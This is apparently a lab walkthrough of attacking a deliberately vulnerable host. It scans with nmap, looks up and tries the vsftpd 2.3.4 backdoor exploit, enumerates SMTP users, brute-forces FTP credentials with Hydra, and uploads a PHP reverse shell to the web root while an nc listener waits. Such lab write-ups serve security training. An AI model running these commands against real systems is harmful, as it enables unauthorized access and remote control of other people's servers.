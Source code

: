 # Targeting vsFTPd

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p21 10.5.28.31
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-15 10:26 IST
Nmap scan report for demo.ine.local (10.5.28.31)
Host is up (0.0022s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
<strong>| ftp-anon: Anonymous FTP login allowed (FTP code 230)
</strong>|_Can't get directory listing: PASV IP 172.17.0.2 is not the same as 10.5.28.31
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.26.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
</code></pre>

```sh
root@attackdefense:~# ftp 10.5.28.31 21
Connected to 10.5.28.31.
220 (vsFTPd 2.3.4)
Name (10.5.28.31:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

```sh
root@attackdefense:~# searchsploit vsftpd
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption      | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)      | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)      | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                    | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                           | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)              | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                             | multiple/remote/49719.py
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


root@attackdefense:~# searchsploit -m 49757
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /usr/share/exploitdb/exploits/unix/remote/49757.py
File Type: Python script, ASCII text executable

Copied to: /root/49757.py

```

<pre class="language-sh"><code class="lang-sh">msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor                                                                          

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.5.28.31
rhosts => 10.5.28.31
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.5.28.31:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.5.28.31:21 - USER: 331 Please specify the password.
<strong>[*] Exploit completed, but no session was created.
</strong>msf6 exploit(unix/ftp/vsftpd_234_backdoor) >      
</code></pre>

```sh
root@attackdefense:~# nmap -sV -p25 10.5.28.31
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-15 10:43 IST
Nmap scan report for demo.ine.local (10.5.28.31)
Host is up (0.0023s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
Service Info: Host:  metasploitable.localdomain

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > back
msf6 > search smtp_enum

Matching Modules
================

   #  Name                              Disclosure Date  Rank    Check  Description
   -  ----                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/smtp/smtp_enum                   normal  No     SMTP User Enumeration Utility


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/smtp/smtp_enum

msf6 > use 0
msf6 auxiliary(scanner/smtp/smtp_enum) > set rhosts 10.5.28.31
rhosts => 10.5.28.31
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[*] 10.5.28.31:25         - 10.5.28.31:25 Banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
[+] 10.5.28.31:25         - 10.5.28.31:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
[*] 10.5.28.31:25         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -l service -P /usr/share/wordlists/metasploit/unix_users.txt 10.5.28.31 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC &#x26; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-15 11:10:07
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ftp://10.5.28.31:21/
<strong>[21][ftp] host: 10.5.28.31   login: service   password: service
</strong>1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-15 11:10:33

</code></pre>

```sh
root@attackdefense:~# ftp 10.5.28.31 21
Connected to 10.5.28.31.
220 (vsFTPd 2.3.4)
Name (10.5.28.31:root): service
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /home/service
ftp> cd /
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    1 0        0            4096 Jan 28  2018 bin
drwxr-xr-x    4 0        0            4096 May 14  2012 boot
lrwxrwxrwx    1 0        0              11 Apr 28  2010 cdrom -> media/cdrom
-rw-------    1 0        0         1499136 Jan 28  2018 core
drwxr-xr-x    5 0        0             400 Jan 15 04:40 dev
drwxr-xr-x    1 0        0            4096 May 20  2021 etc
drwxr-xr-x    1 0        0            4096 Apr 16  2010 home
drwxr-xr-x    2 0        0            4096 Mar 16  2010 initrd
lrwxrwxrwx    1 0        0              32 Apr 28  2010 initrd.img -> boot/initrd.img-2.6.24-16-server
drwxr-xr-x    1 0        0            4096 Jan 28  2018 lib
drwx------    2 0        0            4096 Mar 16  2010 lost+found
drwxr-xr-x    4 0        0            4096 Mar 16  2010 media
drwxr-xr-x    3 0        0            4096 Jul 17  2017 mnt
-rw-------    1 0        0           15915 Jan 15 04:40 nohup.out
drwxr-xr-x    2 0        0            4096 Mar 16  2010 opt
dr-xr-xr-x  241 0        0               0 Jan 15 04:40 proc
drwxr-xr-x    1 0        0            4096 May 20  2021 root
drwxr-xr-x    2 0        0            4096 May 14  2012 sbin
drwxr-xr-x    2 0        0            4096 Mar 16  2010 srv
dr-xr-xr-x   13 0        0               0 Jan 15 04:40 sys
drwxrwxrwt    1 0        0            4096 Jan 15 04:45 tmp
drwxr-xr-x    1 0        0            4096 Apr 28  2010 usr
drwxr-xr-x    1 0        0            4096 May 20  2012 var
lrwxrwxrwx    1 0        0              29 Apr 28  2010 vmlinuz -> boot/vmlinuz-2.6.24-16-server
226 Directory send OK.
ftp>
```

```sh
root@attackdefense:~# ls -al /usr/share/webshells/php/
findsocket/            php-backdoor.php       php-reverse-shell.php  qsd-php-backdoor.php   simple-backdoor.php
root@attackdefense:~# cp /usr/share/webshells/php/php-reverse-shell.php .
root@attackdefense:~# mv php-reverse-shell.php shell.php
root@attackdefense:~# vim shell.php
```

<figure><img src="../../.gitbook/assets/Screenshot from 2024-01-15 11-23-11.png" alt=""><figcaption></figcaption></figure>

```sh
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

```
ftp> cd /var/www
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||15667|).
ftp: Can't connect to `10.5.28.31:15667': Connection refused
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxrwxrwt    2 0        0            4096 May 20  2012 dav
drwxr-xr-x    8 33       33           4096 May 20  2012 dvwa
-rw-r--r--    1 33       33            891 May 20  2012 index.php
drwxr-xr-x   10 33       33           4096 May 14  2012 mutillidae
drwxr-xr-x   11 33       33           4096 May 14  2012 phpMyAdmin
-rw-r--r--    1 33       33             19 Apr 16  2010 phpinfo.php
drwxr-xr-x    3 33       33           4096 May 14  2012 test
drwxrwxr-x   22 33       33          20480 Apr 19  2010 tikiwiki
drwxrwxr-x   22 33       33          20480 Apr 16  2010 tikiwiki-old
drwxr-xr-x    7 33       33           4096 Apr 16  2010 twiki
226 Directory send OK.
ftp> cd dav
250 Directory successfully changed.
ftp> put shell.php 
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |***********************************************|  5492       29.42 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (1.30 MiB/s)
```
